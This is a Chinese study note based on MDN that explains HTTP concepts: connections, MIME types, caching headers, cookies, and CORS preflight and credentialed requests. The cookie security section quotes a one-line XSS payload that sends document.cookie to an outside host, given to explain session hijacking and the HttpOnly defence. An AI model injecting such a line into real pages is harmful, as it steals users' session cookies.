# HTTP---MDN学习

[toc]

## 一、HTTP概述

### 1.1 Http是无状态的

Http本身是无状态的，使用Cookie可以创建有状态的会话

### 1.2 Http连接

Http1.0短连接，每次发起http请求都需要建立一个tcp连接（三次握手很耗时）；而Http1.1则实现了长连接（Connection:keep-alive）

### 1.3 Http工作过程

1. 打开一个TCP连接
2. 发送一个HTTP报文（HTTP2之前报文是语义可读的，HTTP2将报文封装到了帧中，此时报文不可读），（Request）报文大致如下：
    GET / HTTP1.1
    Host: develop.mozilla.org
    Accept-Language: en
3. 读取服务端返回的报文信息（Response）
Http/1.1 200 OK
Date: Sat, 09 Oct 2010 14:28:02 GMT
Server: Apache
...
4. 关闭TCP连接或者为后续请求重用连接

### 1.4 MiME类型

MIME称为**媒体类型**，浏览器使用MIME类型而不是文件扩展名来确定如何处理URL。如果MIME类型配置不正确，浏览器将会曲解文件内容，从而使网站无法正常工作。常用MIME如：

```js
text/plain
text/html
image/png
...
```

重要的MIME介绍：

1、application/octet-stream
应用程序的默认值，表示未知的应用程序。

2、text/plain
未知的文本文件

3、text/html
标识html文件

4、text/css
标识css文件

5、application/javascript
标识js文件

6、image/jpeg、png、svg+xml等
标识图片资源的

7、audiov/wave、webm；video/webm、ogg
标识音频与视频资源

8、multipart/form-data
从浏览器发到表单数据到服务器

9、multipart/byteranges
从服务器发送部分内容到浏览器，对应的相应状态码为206（Partial Content）

<font color='red'>注意：音频或视频文件如果没有正确设置MIME类型（Content-Type），那么会导致无法正常被\<audio>或\<video>识别和播放。</font>

### 1.5 WWW或者非WWW作为域名

在浏览器地址栏输入<https://www.baidu.com>、<https://w.baidu.com、baidu.com>都能返回同一个页面（<https://www.baidu.com>），我们这里称<https://www.baidu.com>为规范名称，其他的成为非规范域名。<font color='red'>输入不规范域名可以定位到规范域名来，是为了保证客户浏览器端的一定的容错性。可以使用两种方式来使网站规范：</font>

1、使用HTTP301重定向
    - 服务器接收到浏览器发送的<https://w.baidu.com>（规范域名为<https://www.baidu.com>）
    - 服务器返回301和Location: <https://www.baidu.com>，用于告知客户端重定向的地址
    - 客户端按照Loaction的字段重新发送请求，获取到对应资源。

2、使用\<link rel="canonical">，canonical的目的是规范链接，为重复网页添加权威页面。
当加入这样的标签后，会告诉浏览器，你提供相同内容的两个域名是同一规范的。比如在html入口文档中添加\<link href="<https://www.baidu.com>" rel="canonical">，那么在请求该资源的时候，不加www（这种规则是按照自己设定的），都会被解析到<https://www.baidu.com>。

### 1.6 基于HTTP的API

基于HTTP的API最常用的就是XMLHttpRequest（Ajax基于此实现的，还有现在很火的axios）。现代提供了Fetch API提供了相同的功能，他是ES6出现的，使用了ES6中的Promise对象。

Fetch是非常底层的实现，在实际应用中，需要进行一层封装。而axios已经对XHR进行了很多的封装（支持并发），当之无愧现在网络请求的首选。

### 1.7 HTTP/2 帧

HTTP/2在HTTP/1.1有几处基本的不同:

1. HTTP2是二进制协议，不再可读。
2. 这是一个复用协议。并行的请求能在同一链接中处理，移除1.1的阻塞和顺序约束。
3. HTTP/2相对于1.1来说，引入了一个额外步骤，它将http/1.1消息分成帧并嵌入到流中。报头帧和数据帧分离，以实现报头压缩。
4. 允许服务器在客户端缓存中填充数据，通过推送机制来实现提前请求。

### 1.8 HTTP会话

HTTP会话分为三个阶段：

1. 客户端建立一条到服务器的TCP连接
2. 客户端发送请求并等待应答
3. 服务器处理请求并返回应答，包括一个状态码和对应的数据

从HTTP1.1开始，TCP连接之后，不再断开（长连接），客户端可以连续发多条请求到服务器，并且当前发出的请求不需要等待之前的请求得到响应就可以发送。

### 1.9 HTTP连接管理

HTTP1.1包含了三种连接模型：短连接、长连接、流水线。下面是三种模型图：



HTTP的连接管理使用与hop-by-hop，而不是end-to-end。前者（hop-by-hop）用于单次连接，不能通过代理或缓存进行重发（客户端-服务器）；而后者是需要经过代理，并且代理无法修改消息头，并且必须要缓存（客户端-代理-服务器）。<font color='red'>常见的hop-by-hop协议头字段包括：Connection、Keep-Alive等，它们的值都是可以被中间节点修改的</font>

1、短连接
HTTP短连接是最早的模型，也是HTTP1.0的默认连接方式，每请求一个HTTP请求都需要建立一次TCP连接，非常低效。

2、长连接
HTTP长连接会保持TCP连接一段时间，重复用于发送一系列HTTP请求，节省了TCP连接花费的时间。长连接不会一直保持连接，它会在空闲一段时间后被关闭（通过设置Keep-Alive中的timeout来设定保持连接的最小时间）。
&emsp;&emsp;长连接也是有**缺点**的。就算在空闲状态，它还是会消耗服务器资源；在重负载时，可能会遭受DOS攻击。在HTTP1.1里，默认是长连接。

3、流水线
HTTP流水线使得HTTP请求不需要在前一个请求得到响应后才发送。流水线是在同一条长连接上发出连续的请求，而不用等待响应返回。

4、域名分片
客户端同时为域名建立多个TCP连接，来满足服务端快速响应的目的。

### 1.10 协议升级机制

HTTP1.1协议升级机制可以实现：连接借助HTTP1.1启动，随后升级到HTTP2甚至是WebSocket。

协议升级是由客户端发起的，发起的升级请求头如下：

```js
// 请求从HTTP1.1升级到Websocket协议
Connection: Upgrade
Upgrade: websocket
```

如果服务器决定升级连接， 则返回**101 Switching Protocols**响应状态码，和一个要切换到的协议字段Upgrade（如Upgrade: websocket）；如果不能升级，就会返回一个常规的响应**200 OK**。

服务器发送101状态码后，连接就升级了，变成了双向信道（如果是websocket），并可以通过新协议按成通信。

## 二、HTTP缓存

重用已获取的资源能够有效的提升网站的性能。Web缓存能减少延迟与网络阻塞，进而减少加载每个资源所需要的时间。

### 2.1 各种类型的缓存

缓存是一个资源保存的副本。当web缓存发现请求的资源已被存储，它会拦截请求，返回资源的副本。对于网站来说，缓存是达到高性能的重要组成部分。

缓存分为**私有缓存**和**共享缓存**。共享缓存可以被多个用户使用，而私有缓存只能被单个用户使用。这里说的缓存全是浏览器与代理缓存（除此之外还有网关缓存、CDN、反向代理缓存等，不在讨论范围）。

其中私有缓存又称为**浏览器缓存**，即是在用户本机进行资源的副本保存；而共享缓存又称为**代理缓存**，即使热门资源保存在代理服务器上，保证其重复利用，减少服务器网络阻塞与延迟。

### 2.2 缓存操作的目标

Http缓存的目标只有GET响应，对于其他类型的响应无能为力。

### 2.3 缓存控制

1、Cache-Control：控制缓存策略

- 禁止缓存

```js
Cache-Control: no-store;
```

- 强制确认缓存

```js
Cache-Control: no-cache;
```

在此方式下，浏览器每次发起请求，经由代理时，代理都会将请求字段中表示缓存有效期的字段传到服务器，服务器会判断代理商的缓存是否到期。如果没有到期（服务器返回304），则代理返回资源缓存。

- 私有缓存和共有缓存

```js
Cache-Control: private
Cache-Control: public
```

私有缓存和共有缓存的区别在于，前者是将内容缓存在浏览器中，而后者是将内容缓存在中间代理或CDN等。

- 缓存过期设置

```js
// 缓存有效期为10分钟
Cache-Control: max-age=600
```

以秒为单位，设置max-age，来指定缓存的有效期。

- 缓存验证

```js
Cache-Control: must-revalidate
```

在使用缓存的时候需要先验证它是否过期

2、Pragma
这是HTTP1.0中用来表示缓存的字段。

### 2.3 缓存有效性

在服务器资源更新时，已被缓存（浏览器或代理）的内容不可能实时更新。所以这里第一次进行资源缓存的时候需要约定缓存的有效时间，在第二次再次获取缓存资源的时候，如果在缓存有效期内，那么直接从代理商获取缓存返回。如果缓存过期，可以通过像服务器发送**If-None-Match**检验缓存是否与服务器资源相同，如果相同，那么服务器会返回一个**304 Not Modified**（该响应不会带有实体信息），表示资源是最新的，这样可以节约一些带宽；而如果不同，就正常返回。



### 2.4 资源加速

对于频繁需要更新的资源，过期时间设置的相对长一些。对于长期不更新的资源（通常是CSS或者JS文件），我们对其文件名后面按照一定规则加上版本号，同时设置很长的过期时间，用自动化构建工具去自动构建引用这个资源的地方（在资源名修改后，引用处自动化修改--webpack），当低频资源（css、js）修改时，只需要在高频资源（html）入口改变即可。

<font color='red'>下面用一套图来说明资源加速的原理</font>

我们有两个客户端浏览器，访问html资源，html资源属于高频变动的资源，它依赖cssv1和jsv1两个低频变动的资源。两个浏览器第一次获取html资源时，cssv1、jsv1也一并从服务器拉过来，并缓存在中间代理中，对html资源设置10s的资源有效期，而js、css设置为永不失效。

在服务器端修改cssv1资源，变为cssv2资源，与之相对的，依赖于此资源的html资源也改变了。在10s内浏览器获取资源，还是获取的代理缓存（cssv1、jsv1）。

10s后，代理上的html过期，需要revalidate，代理向服务器验证html资源的有效期，发现已经改变，所以拉取最新的资源（cssv2）到代理上。此时css1还没被销毁。

在代理上更新了html资源后，浏览器拉取最新的html以及其最新的依赖文件（cssv2、js1），置换算法销毁代理中的无用资源（cssv1）。


### 2.5 缓存验证

当用户刷新网页时会触发缓存验证；或者缓存的头信息中包含Cache-control: must-revalidate时，浏览过程也会发生缓存验证（浏览到过期资源时）。

**Etags**是一种强校验器，代表资源的版本号。客户端在后续请求中带上**If-Match**来验证。

**Last-Modified**是一种弱校验器，它基于时间，只能精确到秒。客户端在后续请求头中带上**If-Modified-Since**来验证

<font color='red'>当向服务器发起缓存校验时，服务端会返回200 OK（表示资源不同，返回新的资源）或者304 Not Modified（表示资源相同）</font>

### 2.5 带Vary头的响应

Vary字段设置在服务器返回的响应头中。它的值与未来的请求头中特定属性的值进行对比，决定是否应用缓存。比如：

```js
Vary: User-Agent
```

返回这样的响应，表示了之后的请求，如果获取这个资源时，是否直接从缓存代理中直接拉取，取于请求头中的**User-Agent**是否与这条资源的源请求相同。

下面可以看出第三次请求和第二次请求的Accept-Encoding相同，而Vary设置的Content-Encoding（也就是编码方式），所以第三次请求直接从缓存代理中拉取第二次缓存的内容。


## 三、HTTP Cookie

HTTP Cookie是服务器发送到用户浏览器并保存在本地的一小块数据。它会在下一次向同一台服务器再发起请求时被携带并发送到服务器上，用来告知服务器两次请求是否来自同一浏览器，经常被用来保持用户登录状态。**Cookie实现了HTTP 有状态**。在Chrome的开发者工具可以看到Cookie详情：


### 3.1 创建Cookie

当服务器收到HTTP请求时，在相应头中设置Cookie（**Set-Cookie**），浏览器接收到响应后会保存Cookie，之后对服务器每次请求都会在头部带上**Cookie**，一个Cookie在创建后会有很多参数，正如下图所示，包括：
**[Name、Value、Domain、Path、Expires、Size、HttpOnly、Secure、SameSite]**。


1、Set-Cookie响应 & Cookie请求

Set-Cookie:

```js
HTTP/1.0 200 OK
Content-type: text/html
...
Set-Cookie: yummy_cookie=choco
Set-Cookie: tasty_cookie=strawberry
```

Cookie:

```js
GET /sample_page.html HTTP/1.1
Host: www.example.org
...
Cookie: yummy_cookie=choco; tasty_cookie=strawberry
```

2、会话Cookie和持久Cookie

会话Cookie是最简单的Cookie，它只在浏览器会话阶段有效。当浏览器关闭时，Cookie被自动删除；另一种Cookie是持久Cookie，持久Cookie会指定一个失效日期（**Expire**）或有效期（**Max-Age**）。

```js
Set-Cookie: id=36fa; Expire=Wed, 21 Oct 2020 07:22:00 GMT;
```

注意：<font color='red'>Cookie被设定并保存到客户端浏览器中，它的失效日期和有效期是和客户端相关的，和服务端无关。</font>

3、Cookie的Secure和HttpOnly标记

- 标记为Secure的Cookie只能通过HTTPS协议加密后的请求进行传输。
- 为避免跨域攻击（XSS），js脚本的API无法访问带有HttpOnly标记的Cookie

```js
// 该Cookie只能通过Https传输，并且无法被js的API访问
Set-Cookie: id=a3fWa; Expire=...; Secure; HttpOnly
```

4、Cookie作用域

Domain和Path标识了Cookie的作用域：即Cookie应该发送给哪些URL

- Domain：哪些主机可以接受Cookie
- Path：主机下哪些路径可以接受Cookie

```js
// .baidu.com下的所有路径都可接受该Cookie
Set-Cookie: H_PS_PSSID=1437_31169; path=/; domain=.baidu.com
```

5、SameSite Cookie

SameSite控制Cookie在跨站请求时的发送与否，其取值如下：

- None：服务器允许同站请求和跨站请求下发送Cookie
- Strict：服务器只允许同站请求下发送Cookie
- Lax：在新版浏览器中，为**SameSite的默认值**。老的浏览器中默认值为Nonde。它介于None和Strict之间

下面一个图了解三者区别（其中Strict不会对任何一个跨域请求发送Cookie）：



其中前三者都是导航到目标网址的GET请求。

6、通过JS的API访问Cookie

通过Document.cookie可以创建新的Cookie，也可通过该属性访问非HttpOnly的Cookie。

通过API创建Cookie

查看当前会话中Cookie的情况


### 3.2 安全

1、会话劫持和XSS
在Web应用中，Cookie被标记为用户或授权会话。如果Cookie被窃听，可能导致用户被攻击。常见的会话劫持使用XSS（跨域脚本攻击）实现：

```js
(new Image()).src="http://www..." + document.cookie
```

将服务器返回的Cookie加上HttpOnly后能一定程度上的缓解此类攻击。

2、跨站请求伪造（CSRF）

一个例子：
制造一个假冒链接（文字或图片等），受害者点击之后，点击到了一个银行卡体现的请求，如果在这之前银行网站账号和Cookie等都还有效并且没有其他验证步骤（这在现在是不可能的），那么你的钱就会被自动转走。

解决方法：

- 任何敏感操作需要加验证（比如手机验证码等）
- 敏感的Cookie设置较短的生命周期

3、追踪和隐私

每个Cookie都有自己的域，如果Cookie与当前页面的域相同，那么这个Cookie相对于当前页面为第一方Cookie，如果不同，称为第三方Cookie。第三方Cookie（通过第三方组件）通常用来收集用户相关信息以用于实现广告投放和网络追踪等。

想要禁止个人信息的追踪，可以在浏览器设置DNT，或者在发送请求头的时候设置DNT。查看当前网站DNT设置的方法：

```js
navigator.doNotTrack    // 0（默认）愿意被追踪，1表示不愿意
```

## 四、HTTP跨域（重要）

跨域的产生：[浏览器的同源策略](https://developer.mozilla.org/zh-CN/docs/Web/Security/Same-origin_policy)，简单来说，就是为保护浏览器安全，限制了来自不同源的document（限制跨域属性）、Cookie（跨域不可读写）、XMLHttpRequest（不能跨域访问）中的部分功能。像浏览器中的像\<link>，\<script>，\等一些标签都可以跨域加载资源，只不过浏览器对应限制了js的权限（不同源的css、img等不可读写，只能应用）。

跨域资源共享（CORS）是一种机制，它使用额外的HTTP头来告诉浏览器，让运行在A源的网页允许访问其他来自不同源服务器的指定资源。**当一个资源从该资源本身外的服务器请求另一个资源时，资源就会发起一个跨域请求**（比如一个通向其他服务器的超链接）。
出于安全考虑，浏览器限制从脚本内发起跨域HTTP请求，比如XMLHttPRequest和Fetch遵循同源策略。意味着使用这样API发起HTTP只能加载同一个服务器的资源。除非相应报文中包含正确的CORS响应头。

**下面的图表示了一个跨域请求。** 整个主页面在a服务器，对于上面二个资源请求，请求的服务器是a，属于同源请求；对于主页面中下面的资源，发起请求的服务器时b，属于跨域请求。


**根据访问控制场景展开说明**：
包括简单请求、预检请求、附带身份凭证的请求，都是基于XMLHttpRequest。

### 4.1 简单请求

不会触发预检请求，称为简单请求。需要满足下述**所有**条件：

- 请求方法使用GET、HEAD、POST方法中的一个
- 请求字段中不得设置<font color='blue'>CORS 安全的首部字段集合</font>[Accept、Accept-Language、Content-Language、Content-Type（需要额外限制）、DPR、Downlink、Save-Data、Viewport-Width、Width]外的字段
- Content-Type的值使用text/plain、multipart/form-data、application/x-www-form-urlencoded中的一个。
- 请求中的任意XMLHttpRequestUpload对象均没有注册任何事件监听器
- 请求中没有使用ReadableStream对象

简单请求的过程如下：

站点 <http://foo.example> 的网页应用想要访问 <http://bar.other> 的资源。<http://foo.example> 的网页中可能包含类似于下面的 JavaScript 代码：

```js
var invocation = new XMLHttpRequest();
var url = 'http://bar.other/resources/public-data/';

function callOtherDomain() {
  if(invocation) {
    invocation.open('GET', url, true);
    invocation.onreadystatechange = handler;
    invocation.send();
  }
}
```



```js
// 请求报文---在主资源页面上发送请求到外域资源所在服务器
GET /resources/public-data/ HTTP/1.1
Host: bar.other
...
Origin: http://foo.example

// 响应报文
HTTP/1.1 200 OK
Content-Type: application/xml
...
Access-Control-Allow-Origin: *
```

请求首部字段Origin表明该跨域请求来源于<http://foo.example>。响应中返回Access-Control-Allow-Origin：*代表该资源可以被任意外域访问，如果服务端仅允许来自<http://foo.example>的访问，那么设置为：

```js
// 设置为特定url，表示除了该url，其他外域均不能访问该资源
Access-Control-Allow-Origin: http://foo.example
```

### 4.2 预检请求

与简单请求不同，预检请求要求必须首先发送一个OPTIONS方法到服务器，以获取服务器同意。

满足下述**任一**条件时，即发送预检请求：

- 使用了PUT、DELETE、CONNECT、OPTIONS、TRACE、PATCH中的方法
- 使用了<font color='blue'>CORS 安全的首部字段集合</font>之外的字段
- Content-Type不是简单请求的类型
- 请求中的XMLHttpRequestUpload对象注册了事件监听器
- 请求中使用了ReadableStream对象

预检请求的过程如下：

下面的代码使用 POST 请求发送一个 XML 文档，该请求包含了一个自定义的请求首部字段（X-PINGOTHER: pingpong）。另外，该请求的 Content-Type 为 application/xml。因此，该请求需要首先发起“预检请求”。

```js
var invocation = new XMLHttpRequest();
var url = 'http://bar.other/resources/post-here/';
var body = '<?xml version="1.0"?><person><name>Arun</name></person>';

function callOtherDomain(){
  if(invocation)
    {
      invocation.open('POST', url, true);
      invocation.setRequestHeader('X-PINGOTHER', 'pingpong');
      invocation.setRequestHeader('Content-Type', 'application/xml');
      invocation.onreadystatechange = handler;
      invocation.send(body);
    }
}
```



```js
// 预检请求报文
OPTIONS /resources/post-here/ HTTP/1.1
Host: bar.other
...
Origin: http://foo.example
Access-Control-Request-Method: POST
Access-Control-Request-Headers: X-PINGOTHER, Content-Type

// 预检响应报文
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: http://foo.example
Access-Control-Allow-Methods: POST, GET, OPTIONS
Access-Control-Allow-Headers: X-PINGOTHER, Content-Type
Access-Control-Max-Age: 86400
```

发送完预检请求后发送正式资源请求：

```js
// 资源请求报文
POST /resources/post-here/ HTTP/1.1
...
X-PINGOTHER: pingpong
Origin: http://foo.example

<?xml version="1.0"?><person><name>Arun</name></person>

// 资源响应报文
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: http://foo.example

[Some GZIP'd payload]
```

<font color='red'>分析：</font>
1、浏览器根据规则检测到最开始的报文是一个预检请求。其中预检请求的OPTIONS方法是HTTP1.1定义的。其中还包含:

```js
Access-Control-Request-Method: POST
Access-Control-Request-Headers: X-PINGOTHER, Content-Type
```

前者告知服务器，实际的请求时用POST方法，而后者告知服务器实际请求携带两个自定义请求字段：X-PINGOTHER, Content-Type。
2、预检请求响应表明接受跨域资源请求，其中：

```js
Access-Control-Allow-Origin: http://foo.example
Access-Control-Allow-Methods: POST, GET, OPTIONS
Access-Control-Allow-Headers: X-PINGOTHER, Content-Type
Access-Control-Max-Age: 86400
```

Access-Control-Allow-Origin与直接请求的意思相同，指示什么样的源可以访问该资源。Access-Control-Allow-Methods表明服务器允许客户端以POST、GET、OPTIONS发起资源请求。Access-Control-Allow-Headers表明允许请求中携带X-PINGOTHER, Content-Type头字段。Access-Control-Max-Age规定了该预检响应有效期为86400秒（24小时）

### 4.3 附带身份凭证的请求

一般来说，对于跨域XMLHttpRequest和Fetch请求，浏览器不会发送身份凭证信息，如果需要发送类似Cookie以确认身份，需要设置XMLHttpRequest相关的字段：

本例中，<http://foo.example> 的某脚本向 <http://bar.other> 发起一个GET 请求，并设置 Cookies：

```js
var invocation = new XMLHttpRequest();
var url = 'http://bar.other/resources/credentialed-content/';

function callOtherDomain(){
    if(invocation){
        invocation.open('GET', url, true);
        // 设置withCredentials属性，向服务器发送Cookies
        invocation.withCredentials = true;
        invocation.onreadystatechange = handler;
        invocation.send();
    }
}
```

由于是一个简单GET请求，所以浏览器不会对其发起“预检请求”。但是，如果响应报文中未携带Access-Control-Allow-Credentials: true，浏览器就不会把响应内容返回给请求的发送者（浏览器这一层进行拦截）。



```js
// 带有身份凭证的请求报文
GET /resources/access-control-with-credentials/ HTTP/1.1
Host: bar.other
...
Origin: http://foo.example
Cookie: pageAccess=2

// 身份凭证的响应报文
HTTP/1.1 200 OK
...
Set-Cookie: pageAccess=3; expires=Wed, 31-Dec-2008 01:34:53 GMT
Access-Control-Allow-Origin: http://foo.example
Access-Control-Allow-Credentials: true

[text/plain payload
```

